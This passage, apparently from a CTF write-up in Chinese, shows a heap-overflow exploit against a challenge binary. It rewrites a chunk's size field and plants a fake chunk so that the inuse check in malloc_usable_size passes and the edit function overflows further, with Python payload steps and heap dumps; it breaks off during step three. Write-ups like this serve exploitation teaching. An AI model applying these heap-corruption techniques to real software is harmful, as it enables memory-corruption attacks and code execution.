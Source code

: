 分析malloc_usable_size的源码，首先调用inuse 来检查传入的chunk是否处于使用状态，检查方式为查看与当前chunk相邻的下一个chunk上size字段的p位为是否为1，如果chunk处于使用状态，返回值为chunk->size - SIZE_SZ。结合Add功能的堆溢出漏洞来修改chunk->size并伪造一个相邻chunk来满足inuse 检查的话，可以在Edit功能里实现长度更长的堆溢出。

step 1:
```python
add('A', 'A', '-32')   #chunk 0
add('B', 'B', 0x10)    #chunk 1
fake = p64(0)*3
fake += p32(0x71)      #fake chunk
add(fake, 'C', 0x48, 0)#chunk 2
```
```plain
0x1fad000:	0x0000000000000000	0x0000000000000021  <-- chunk 0
0x1fad010:	0x0000000000000041	0x0000000000000000
0x1fad020:	0x0000000000000000	0x0000000000000041  <-- chunk 1
0x1fad030:	0x0000000000000042	0x0000000000000000
0x1fad040:	0x0000000000000000	0x0000000000000000
0x1fad050:	0x0000000000000042	0x0000000000000000
0x1fad060:	0x0000000000000000	0x0000000000000071  <-- chunk 2
0x1fad070:	0x0000000000000043	0x0000000000000000
0x1fad080:	0x0000000000000000	0x0000000000000000
0x1fad090:	0x0000000000000000	0x0000000000000000
0x1fad0a0:	0x0000000000000000	0x0000000000000071  <-- fake chunk
0x1fad0b0:	0x0000000000000000	0x0000000000000000
0x1fad0c0:	0x0000000000000000	0x0000000000000000
0x1fad0d0:	0x0000000000000000	0x0000000000020f31  <-- top chunk
```
step 2:
```python
delete(0) #free chunk 0
payload = 'A' * 8*3
payload += p32((0x40*2) + 0x1)
payload += chr(0)*2
add('A', payload, '-32', 0) #overwrite chunk1->size
```
```plain
0x1fad000:  0x0000000000000000  0x0000000000000021  <-- chunk 0
0x1fad010:  0x4141414141414141  0x4141414141414141
0x1fad020:  0x4141414141414141  0x0000000000000081  <-- chunk 1's size is modified
0x1fad030:  0x0000000000000042  0x0000000000000000
0x1fad040:  0x0000000000000000  0x0000000000000000
0x1fad050:  0x0000000000000042  0x0000000000000000
0x1fad060:  0x0000000000000000  0x0000000000000071  <-- chunk 2
0x1fad070:  0x0000000000000000  0x0000000000000000
0x1fad080:  0x0000000000000000  0x0000000000000000
0x1fad090:  0x0000000000000000  0x0000000000000000
0x1fad0a0:  0x0000000000000000  0x0000000000000071  <-- fake chunk
                                                        chunk1 + chunk1->size = fake chunk
                                                        fake chunk->size & PREV_INUSE == 0x01
                                                        bypass the inuse() check
0x1fad0b0:  0x0000000000000000  0x0000000000000000
0x1fad0c0:  0x0000000000000000  0x0000000000000000
0x1fad0d0:  0x0000000000000000  0x0000000000020f31
```
step 3:
```python
payload = 'B' * 0x8*5
edit(1, payload)# overwrite chunk 2
```
```plain
0x1fad000:	0x0000000000000000	0x0000000000000021  <-- chunk 0
0x1fad010:	0x4141414141414141	0x4141414141414141
0x1fad020:	0x4141414141414141	0x0000000000000081  <-- chunk 1
0x1fad030:	0x0000000000000042	0x0000000000000000
0x1fad040:	0x0000000000000000	0x0000000000000000
```